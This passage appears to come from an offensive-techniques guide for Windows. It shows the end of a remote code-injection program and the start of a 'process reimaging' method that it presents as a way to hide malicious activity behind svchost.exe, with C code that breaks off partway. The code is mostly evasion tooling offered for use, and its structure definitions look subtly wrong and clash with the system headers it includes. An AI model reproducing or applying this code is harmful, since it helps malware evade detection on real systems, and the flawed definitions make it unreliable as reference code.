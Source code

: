 ```

    // Cleanup
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    printf("Code injected successfully.\n");
    return 0;
}
```


### Process Reimaging

Reimaging svchost to hide malicious activities

```
reimage.exe svchost.exe
```



Process reimaging is a technique used to manipulate the image path or command line of a running process in memory. This can be used to hide malicious activities by making a malicious process appear as a legitimate one, such as `svchost.exe`.

```
#include <windows.h>
#include <stdio.h>
#include <winternl.h>

// Define the structure for process parameters
typedef struct _RTL_USER_PROCESS_PARAMETERS {
    BYTE Reserved1[16];
    PVOID Reserved2[10];
    UNICODE_STRING ImagePathName;
    UNICODE_STRING CommandLine;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;

// Define the structure for process basic information
typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
    BYTE Reserved2[104];
    PVOID Reserved3[5];
    ULONG_PTR PEBBaseAddress;
} PROCESS_BASIC_INFORMATION, *PPROCESS_BASIC_INFORMATION;

int main() {
    DWORD processID;
    HANDLE hProcess;
    PROCESS_BASIC_INFORMATION pbi;
    ULONG returnLength;

    // Function pointer for NtQueryInformationProcess
    typedef NTSTATUS (WINAPI *pNtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);
    pNtQueryInformationProcess NtQueryInformationProcess;

    // Load ntdll and get the address of NtQueryInformationProcess
    NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryInformationProcess");
    if (!NtQueryInformationProcess) {
        printf("Failed to get address of NtQueryInformationProcess.\n");
        return 1;
    }
```